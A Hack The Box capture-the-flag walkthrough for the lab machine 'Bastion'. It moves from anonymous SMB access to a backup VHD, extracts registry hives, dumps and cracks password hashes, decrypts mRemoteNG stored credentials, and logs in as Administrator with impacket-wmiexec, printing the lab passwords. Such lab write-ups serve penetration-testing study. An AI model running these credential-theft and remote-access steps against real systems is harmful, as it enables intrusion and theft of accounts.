





# [Bastion](https://app.hackthebox.eu/machines/186)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.134 &
# UDP deep scan
sudo nmap -sU --script "default,safe" -p1-65535 -oA udp --open -Pn -sV 10.10.10.134 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.134
# UDP quick scan
sudo nmap -sU -sC -F --open -Pn -sV 10.10.10.134
```

The TCP quick scan returns the following:



With these ports, the next to scan is SMB:

- https://book.hacktricks.xyz/pentesting/pentesting-smb

```bash
# try to connect without a username or password
smbclient -N -L //10.10.10.134
rpcclient -N 10.10.10.134
```

The `smbclient` comand returns some interesting results:


Looking at each share shows the following:

```bash
$ip=10.10.10.134
for share in $(smbclient -N -L //$ip | grep Disk | sed 's/^[ \t]*//g' | cut -d ' ' -f 1); 
do 
  echo "-- \\\\$ip\\$share --"
  smbclient -N \\\\$ip\\$share -c 'ls;quit'; 
done
```


The `Backups` share has some interesting files. 


A Windows harddrive backup will contain a copy of the registry `HKEY_LOCAL_MACHINE` hive with user password hashes. This hash can then be used to authenticate with Windows services. First, mount the remote VHD file:

```bash
# install packages
sudo apt-get install libguestfs-tools cifs-utils
# make mount point
sudo mkdir -p /mnt/{remote,vhd1,vhd2}
# mount remote share using empty username or password
sudo mount -t cifs //10.10.10.134/Backups /mnt/remote -o user='',password=''
# mount the remote VHD files
sudo guestmount --add '/mnt/remote/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro /mnt/vhd1 -v
sudo guestmount --add '/mnt/remote/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro /mnt/vhd2 -v
```

It looks like the first VHD file `9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd` is empty, but the second one (`9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`) does actually contain a backup:


Look for the files associated with `HKEY_LOCAL_MACHINE` inside `%SystemRoot%\System32\config` or `\Windows\System32\config\`

- https://en.wikipedia.org/wiki/Windows_Registry



The 3 hives `SAM`, `SECURITY`, and `SYSTEM` can be used to extract hashes as follows:

```bash
sudo cp /mnt/vhd2/Windows/System32/config/SAM .
sudo cp /mnt/vhd2/Windows/System32/config/SYSTEM .
sudo cp /mnt/vhd2/Windows/System32/config/SECURITY .
sudo chmod 666 SAM SYSTEM SECURITY
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```


It looks like there might be a default password used but just to be sure, try cracking the hashes from the output above:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 1000 -a 0 --quiet --status hashes.txt rockyou.txt
```


Nice! so that is a valid password. The original full TCP `nmap` scan should have finished by now and shows 2 more interesting open ports 5985/47001 that the quick `nmap` did not, which is WinRM:

- https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm

It is possible to try these credentials over WinRM as follows:

```bash
# install docker
sudo apt update
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo usermod -aG docker $USER # requires a logout and login to work
sudo docker run -it mcr.microsoft.com/powershell
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.134 -Authentication Negotiate -Credential $creds
```

However this does not work...



Next, try the tool `impacket-wmiexec` just to be sure:

```bash
impacket-wmiexec L4mpje:bureaulampje@10.10.10.134
```


Okay, maybe SSH?


Nice! That is `user.txt`. During enumeration, the following interesting program is installed:

```bash
dir "C:\Program Files (x86)" /b
```


`searchsploit` does not return anything for `mRemoteNG`, but a quick Google search shows a possible vulnerable password storage mechanism:

- https://www.rapid7.com/db/modules/post/windows/gather/credentials/mremote

According the the following outdated forum post titled `Password Recovery`, the password file is at `%appdata%\mRemoteNG\confCons.xml`:

> 1) Ensure that mRemoteNG is closed, then proceed with the next steps.
> 2) Navigate to the default mRemoteNG data folder.  Enter this path %appdata%/mRemoteNG into Start/Run and press enter.
> 3) Once inside the mRemoteNG default data folder  (C:\Users\<Your_Windows_Account>\AppData\Roaming\mRemoteNG)  right-click on confCons.xml and choose Edit.
> 4) On the second line, locate the Protected="a bunch of numbers/letters" string and replace it with the value below.
>
> Protected="GiUis20DIbnYzWPcdaQKfjE2H5jh//L5v4RGrJMGNXuIq2CttB/d/BxaBP2LwRhY"
>
> 5) Now save your changes and try opening mRemoteNG again. 

- http://forum.mremoteng.org/viewtopic.php?f=3&t=1552

Looking at that file on the target shows the following:



One of the passwords is for the `Administrator` user! Cracking the hash is simple enough using code from here after some more Google searches:

- https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py

Install the required packages and run the script:

- **NOTE:** Code needs a small modification to change `from Cryptodome.Cipher import AES` to `from Crypto.Cipher import AES`

```bash
wget https://raw.githubusercontent.com/kmahyyg/mremoteng-decrypt/master/mremoteng_decrypt.py
python3 -m pip install pycryptodome
python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='
```



Trying this password over WinRM provides `root.txt`!

```bash
impacket-wmiexec Administrator:thXLHM96BeKL0ER2@10.10.10.134
```


